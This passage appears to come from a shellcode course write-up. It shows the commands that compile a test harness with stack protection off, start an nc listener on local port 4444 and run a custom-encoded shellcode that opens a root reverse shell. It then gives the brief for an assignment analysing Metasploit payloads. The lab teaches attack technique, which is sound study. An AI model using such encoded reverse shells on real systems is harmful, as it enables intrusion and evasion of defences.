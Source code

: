 ```
	ret();

```

Once that's done we're going to need to compile it:
```
root@ubuntu:/mnt/hgfs/assembly/exam/4-Assignment/# gcc -fno-stack-protector -z execstack testingShellcode.c -o testingShellcode
```

And we're done!

# Testing our custom encoder/decoder

To test it we'll first open up a new terminal and open a socket to listen on our local (127.0.0.1) IP and port 4444:

```
root@ubuntu:/home/ubuntu# nc -v -l 4444
```

Now go back to your original terminal and execute your compiled C file:

```
root@ubuntu:/mnt/hgfs/assembly/exam/4-Assignment/testShellcode# ./testingShellcode
Shellcode Length: 139

```

Now if we go back to our socket listener you'll see we have a reverse shell connection!

Our custom encoder/decoder worked!

```
root@ubuntu:/home/ubuntu# nc -v -l 4444
Connection from 127.0.0.1 port 4444 [tcp/*] accepted
id
uid=0(root) gid=0(root) groups=0(root)

```

I hope you've enjoyed learning about custom encoders/decoders and implementing them in assembly!



# Assignment 5
# MSF Analysis Requirements
- Take up at least 3 shellcode samples created using Msfpayload for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

## Prerequisites
